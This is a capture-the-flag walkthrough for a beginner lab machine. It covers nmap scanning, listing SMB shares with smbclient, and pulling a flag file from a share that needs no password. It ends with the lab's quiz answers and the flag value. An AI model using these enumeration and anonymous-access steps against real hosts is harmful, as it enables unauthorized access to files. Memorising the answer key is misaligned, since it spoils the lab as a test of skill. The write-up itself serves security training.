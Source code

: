 ## Walkthrough

- performed nmap scans

```
┌─[birb@parrot]─[~]
└──╼ $nmap 10.129.163.162
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-16 15:15 IST
Nmap scan report for 10.129.163.162
Host is up (0.47s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 45.44 seconds
```

```
┌─[birb@parrot]─[~]
└──╼ $nmap 10.129.163.162 -sC -sV -p 135,139,445
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-16 15:17 IST
Nmap scan report for 10.129.163.162
Host is up (0.36s latency).

PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 3h59m59s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-16T13:47:35
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.65 seconds
```

- got smb shares list using `smbclient -L ip`

```
┌─[birb@parrot]─[~]
└──╼ $smbclient -L 10.129.163.162
Password for [WORKGROUP\birb]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      
SMB1 disabled -- no workgroup available
```

- connected to `WorkShares` smb share (no password required)

```
┌─[birb@parrot]─[~]
└──╼ $smbclient //10.129.163.162/WorkShares
Password for [WORKGROUP\birb]:
Try "help" to get a list of possible commands.
smb: \>
```

- NOTE: instead of connecting to the samba share, you can mount the share to a local mount point

```
mount -t cifs //10.129.163.162/WorkShares /path/to/mount/point
```

- secured `flag.txt` using `get` command

```
WorkShares/
├── Amy.J
│   └── worknotes.txt
└── James.P
    └── flag.txt

2 directories, 2 files
```

```
smb: \> get James.P\flag.txt 
getting file \James.P\flag.txt of size 32 as James.P\flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \> quit
```

- got the flag

```
┌─[birb@parrot]─[~]
└──╼ $cat James.P\\flag.txt 
5f61c10dffbc77a704d76016a22f1664
```

## Tasks

**What does the 3-letter acronym SMB stand for?**

=> Server Message Block

**What port does SMB use to operate at?**

=> 445

**What is the service name for port 445 that came up in our Nmap scan?**

=> microsoft-ds

**What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share?**

=> -L

**How many shares are there on Dancing?**

=> 4

**What is the name of the share we are able to access in the end with a blank password?**

=> WorkShares

**What is the command we can use within the SMB shell to download the files we find?**

=> get

**Submit root flag**

=> 5f61c10dffbc77a704d76016a22f1664
